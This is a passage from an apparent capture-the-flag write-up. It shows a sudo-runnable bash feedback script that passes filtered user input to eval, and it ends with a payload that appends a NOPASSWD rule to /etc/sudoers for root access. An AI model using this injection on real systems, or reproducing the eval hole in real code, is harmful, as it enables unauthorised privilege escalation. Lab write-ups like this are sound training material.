 ```
#!/bin/bash

echo "Hello, Welcome to the Report Form       "
echo "This is a way to report various problems"
echo "    Developed by                        "
echo "        The Technical Department of U.A."

echo "Enter your feedback:"
read feedback


if [[ "$feedback" != *"\`"* && "$feedback" != *")"* && "$feedback" != *"\$("* && "$feedback" != *"|"* && "$feedback" != *"&"* && "$feedback" != *";"* && "$feedback" != *"?"* && "$feedback" != *"!"* && "$feedback" != *"\\"* ]]; then
    echo "It is This:"
    eval "echo $feedback"

    echo "$feedback" >> /var/log/feedback.txt
    echo "Feedback successfully saved."
else
    echo "Invalid input. Please provide a valid input." 
fi
```

<br>

```
Hello, Welcome to the Report Form       
This is a way to report various problems
    Developed by                        
        The Technical Department of U.A.
Enter your feedback:
```

<br>

> It seem's I can run a script as sudo. Upon investigating the script and trying foolishly to read the /root/root.txt for a quick win. I wondered if I could just write to any file, I noticed that the script is checking for many special characters, so, many options were off the table here. 

<br>

> I figured I could add myself as a user with a root shell, but why not just give myself keys to the castle and add to the sudoers file...

<br>

## Privilege Escalation

<br>

```
deku ALL=NOPASSWD: ALL >> /etc/sudoers
```
